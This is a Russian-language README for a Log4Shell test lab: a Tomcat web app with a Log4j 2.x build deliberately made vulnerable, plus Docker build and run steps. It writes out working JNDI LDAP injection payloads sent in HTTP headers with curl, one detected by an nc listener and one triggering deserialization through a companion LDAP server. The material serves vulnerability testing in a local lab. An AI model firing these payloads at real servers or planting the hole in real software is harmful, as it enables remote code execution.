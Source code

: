 # log4j-poc

Тестовое веб-приложение на основе Tomcat 10.1 (OpenJDK 21),
включающее уязвимую версию библиотеки Log4j 2.x версии 2.25
с внесенной уязвимостью Log4Shell. Уязвимое приложение
позволяет эксплуатацию в HTTP-заголовках, отправляемых в лог
Tomcat (/usr/local/tomcat/logs/catalina.out). Приложение
предназначено для целей тестирования и проверки полезных
нагрузок.

# Сборка и запуск

Для сборки и запуска необходима POSIX-совместимая операционная
система, включающая следующие компоненты:

- git
- docker
- curl

# сборка

```
git clone https://github.com/sercher/log4j-poc.git
cd log4j-poc
docker build -t log4j-poc:latest .
```

# запуск

```
docker run -d -p 8080:8080 --add-host=host:host-gateway log4j-poc
```

Запущенное приложение доступно по адресу

```
localhost:8080/myapp
```

# Проверка lookup без добавления полезной нагрузки

```
(
  sleep 1 | nc -l 1339 &>/dev/null && echo '[!] VULNERABLE TO LOG4SHELL' &
  pid=$!
  curl -H 'Header-poc: ${jndi:ldap://host:1339/a}' 'http://localhost:8080/myapp/'
  sleep 3
  kill -9 $pid 2>/dev/null
)
```

Альтернативно можно использовать готовый собранный образ

```
docker pull sercher78/sercher:log4j-poc-small
```

Тогда запуск приложения будет осуществляться командой

```
docker run -d -p 8080:8080 --add-host=host:host-gateway sercher78/sercher:log4j-poc-small
```

# Проверка сериализации с добавлением полезной нагрузки

- maven
- сборка LDAP сервера (см. [ldap-server](https://github.com/sercher/ldap-server))

```
git clone https://github.com/sercher/ldap-server.git
cd ldap-server
mvn clean compile assembly:single
```

- запуск LDAP сервера

```
java -cp target/ldap-server-1.0-SNAPSHOT-jar-with-dependencies.jar LdapServer &
```

- проверка сериализации

```
(
  curl -H 'Header-poc: ${jndi:ldap://host:1389/a}' 'http://localhost:8080/myapp/' &>/dev/null && \
  docker exec -it $(docker ps -lq) cat /usr/local/tomcat/logs/catalina.out | grep OBJECT-DESERIALIZED && echo '[!] HIGHLY VULNERABLE TO LOG4SHELL'
)
```

- остановка LDAP сервера

```
fg
нажать <CTRL-C>
```

Отчет об уязвимостях docker hub:
- [sercher78/sercher:log4j-poc-small](https://hub.docker.com/repository/docker/sercher78/sercher/tags/log4j-poc-small/sha256-a421b26712f4ba1989edcd9d7603dab011a6613b485f288d9f563adbf39742d0)

Обнаруженные уязвимости целиком находятся во внутреннем слое (tomcat:10)